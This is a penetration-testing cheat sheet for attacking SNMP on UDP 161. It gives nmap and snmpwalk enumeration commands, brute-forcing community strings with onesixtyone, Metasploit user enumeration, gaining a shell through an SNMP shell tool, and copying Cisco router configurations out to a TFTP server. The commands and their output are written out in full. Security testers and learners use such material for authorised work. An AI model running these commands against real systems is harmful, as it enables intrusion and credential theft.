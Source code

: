 ```yaml
---
description: >-
  UDP 161 - Simple Network Management Protocol (SNMP) is an Internet Standard
  protocol for collecting and organizing information about managed devices.
---
```


# 161 - SNMP

### Information

It's important to remember that SNMP has 3 versions:

| Version | Info |
| :--- | :--- |
| 1 | The initial version of the protocol. It is easy to set up and is defined in RFC 1155 and 1157. |
| 2c | The revised version with enhanced protocol packet types, transport mappings, and MIB structure elements, but also uses the existing SNMPv1 administration structure \("community-based" and hence SNMPv2c\). |
| 3 | Facilitates remote configuration of SNMP entities. It also adds both encryption and authentication, which can be used together or separately, making this the most secure version yet. |

### Install SNMP-MiBS 

```text
apt install snmp-mibs-downloader 
echo "" > /etc/snmp/snmp.conf 
```

### Discover SNMP

`nmap -p 161 -sU -oA nmap_udp_snmp 10.10.10.92` 

### Scan Host

```text
snmpwalk -v2c -c public 192.168.1.234 
-v = version of the SNMP - most poplur 2c 
-c = the public string (default public) 
```

### SNMP Config

Snmp configuration file is located by default in:

`/etc/snmp/snmpd.conf`

and it includes the passwords for the community and private string.

### Brute force community string

```text
./onesixtyone -c /opt/SecLists/Discovery/SNMP/common-snmp-community-strings.txt 10.10.10.92 
Scanning 1 hosts, 122 communities 
10.10.10.92 [public] Linux Mischief 4.15.0-20-generic #21-Ubuntu SMP Tue Apr 24 06:16:15 UTC 2018 x86_64 
10.10.10.92 [public] Linux Mischief 4.15.0-20-generic #21-Ubuntu SMP Tue Apr 24 06:16:15 UTC 2018 x86_64 
```

### **Metasploit - Enumerate users**

```text
msf5 auxiliary(scanner/snmp/snmp_enumusers) > show options  
Module options (auxiliary/scanner/snmp/snmp_enumusers): 
   Name       Current Setting  Required  Description 
   ----       ---------------  --------  ----------- 
   COMMUNITY  public           yes       SNMP Community String 
   RETRIES    1                yes       SNMP Retries 
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax '
file:<path>
' 
   RPORT      161              yes       The target port (UDP) 
   THREADS    1                yes       The number of concurrent threads (max one per host) 
   TIMEOUT    1                yes       SNMP Timeout 
   VERSION    1                yes       SNMP Version <1/2c> 
msf5 auxiliary(scanner/snmp/snmp_enumusers) > set rhosts 192.168.0.41 
rhosts => 192.168.0.41 
msf5 auxiliary(scanner/snmp/snmp_enumusers) > run 
[+] 192.168.0.41:161 Found 6 users: daemon, jack, noaccess, nobody, root, smmsp 
[*] Scanned 1 of 1 hosts (100% complete) 
[*] Auxiliary module execution completed
```

### SNMP Shell

Using Net-SNMP functionality we can gain shell on a SNMP server

Link: [https://github.com/mxrch/snmp-shell](https://github.com/mxrch/snmp-shell)

```text
root@kali# rlwrap python3 /opt/snmp-shell/shell.py 10.10.10.195 -c SuP3RPrivCom90

Debian-snmp@intense:/$ id
uid=111(Debian-snmp) gid=113(Debian-snmp) groups=113(Debian-snmp)
```

### SNMP IPv6 Enumeration 

[Enyx](../../tools/enyx.md) is an enumerator tool about grabbing the possible IPV6 of a machine through the snmp protocol. 

### SNMPv3 

Identify SNMPv3 servers with nmap: 

`nmap -sV -p 161 --script=snmp-info TARGET-SUBNET` 

Rory McCune’s snmpwalk wrapper script helps automate the username enumeration process for SNMPv3: 

```text
apt-get install snmp snmp-mibs-downloader 
wget https://raw.githubusercontent.com/raesene/TestingScripts/master/snmpv3enum.rb
```

###  SNMP  Enumeration - Windows tool

Getif is a free multi-functional Windows GUI based Network Tool written by Philippe Simonet.  It is amongst other things, an excellent SNMP tool that allows you to collect and graph information from SNMP devices. 

Download: 

[http://www.wtcs.org/snmp4tpc/getif.htm](http://www.wtcs.org/snmp4tpc/getif.htm) 

Install and set compatability as Windows XP SP2 

Press STRAT once you put the IP and public commuinty 

Download the  SNMP4tPC Getif MIB collection as well.

![](../../../.gitbook/assets/getimage.gif)

For each tab press 'start' to get the information  

`Error: If you getting 'DllRegisterServer (msflxgrd) failed' error` – run the software as administrator  

### **Common Mibs**

**interfaces**   
`snmpwalk -c public -v1 $TARGET 1.3.6.1.2.1.2.2` 

**Windows User Accounts**   
`snmpwalk -c public -v1 $TARGET 1.3.6.1.4.1.77.1.2.25` 

**Windows Running Programs**   
`snmpwalk -c public -v1 $TARGET 1.3.6.1.2.1.25.4.2.1.2` 

**Windows Hostname**   
`snmpwalk -c public -v1 $TARGET .1.3.6.1.2.1.1.5` 

**Windows Share Information**   
`snmpwalk -c public -v1 $TARGET 1.3.6.1.4.1.77.1.2.3.1.1` 

**Windows Share Information**   
`snmpwalk -c public -v1 $TARGET 1.3.6.1.4.1.77.1.2.27` 

**Windows TCP Ports**   
`snmpwalk -c public -v1 $TARGET4 1.3.6.1.2.1.6.13.1.3` 

**Software Name**   
`snmpwalk -c public -v1 $TARGET 1.3.6.1.2.1.25.6.3.1.2` 

**SysLocation**   
`snmpwalk -c public -v1 $TARGET 1.3.6.1.2.1.1.6`

### Solaris MIBS

Enumerate users on solaris:

`use auxiliary/scanner/snmp/snmp_enumusers`

### Download Cisco Conf

Copies configuration files from Cisco devices running SNMP. 

**Usage**: 

```text
root@kali:~# copy-router-config.pl 
###################################################### 
# Copy Cisco Router config  - Using SNMP 
# Hacked up by muts - muts@offensive-security.com 
####################################################### 
Usage : ./copy-copy-config.pl <router-ip> <tftp-serverip> <community> 
Make sure a TFTP server is set up, preferably running from /tmp ! 
```

**Example:** 

`root@kali:~# copy-router-config.pl 192.168.1.1 192.168.1.15 private`



